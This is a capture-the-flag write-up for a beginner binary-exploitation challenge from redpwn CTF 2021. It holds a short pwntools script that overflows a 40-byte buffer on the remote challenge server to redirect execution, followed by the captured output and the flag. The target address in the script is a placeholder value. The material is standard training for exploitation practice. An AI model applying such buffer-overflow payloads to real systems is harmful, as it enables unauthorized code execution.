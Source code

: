 # beginner-generic-pwn-number-0

Category: Binary Exploitation

Source: redpwn CTF 2021

Author: pepsipu

Score: 5

## Description

rob keeps making me write beginner pwn! i'll show him...

```
nc mc.ax 31199
```

## Downloads

[beginner-generic-pwn-number-0](https://static.redpwn.net/uploads/1e27cfadfb40b4f3faa522e57565371c52ef70e46830aab2c8d6c35f3808b319/beginner-generic-pwn-number-0)

[beginner-generic-pwn-number-0.c](https://static.redpwn.net/uploads/ce82796645cd48396ac95cd649e83faaf121589d578096a141c56ee444347a54/beginner-generic-pwn-number-0.c)

## Solution

So I know this was a buffer overflow because entering a lot of "A" created a segmentation fault.

```
from pwn import *
flag_address = 0xffffffffffffffff
payload = b"A" * 40
# binary = process("./beginner-generic-pwn-number-0")
binary = remote("mc.ax", 31199)
print(binary.recvuntil(":(\n"))
binary.sendline(payload + p64(flag_address))
binary.interactive()
# Normal Response
# b'"\xf0\x9d\x98\xb1\xf0\x9d\x98\xad\xf0\x9d\x98\xa6\xf0\x9d\x98\xa2\xf0\x9d\x98\xb4\xf0\x9d\x98\xa6 \xf0\x9d\x98\xb8\xf0\x9d\x98\xb3\xf0\x9d\x98\xaa\xf0\x9d\x98\xb5\xf0\x9d\x98\xa6 \xf0\x9d\x98\xa2 \xf0\x9d\x98\xb1\xf0\x9d\x98\xb8\xf0\x9d\x98\xaf \xf0\x9d\x98\xb4\xf0\x9d\x98\xb0\xf0\x9d\x98\xae\xf0\x9d\x98\xa6\xf0\x9d\x98\xb5\xf0\x9d\x98\xaa\xf0\x9d\x98\xae\xf0\x9d\x98\xa6 \xf0\x9d\x98\xb5\xf0\x9d\x98\xa9\xf0\x9d\x98\xaa\xf0\x9d\x98\xb4 \xf0\x9d\x98\xb8\xf0\x9d\x98\xa6\xf0\x9d\x98\xa6\xf0\x9d\x98\xac"\nrob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!\ncan you write me a heartfelt message to cheer me up? :(\n'
```

**Flag: flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}**

## Reference

Writeup from https://codingmace.gitbook.io/masterward/ctf/2021/redpwn-2021#beginner-generic-pwn-number-0
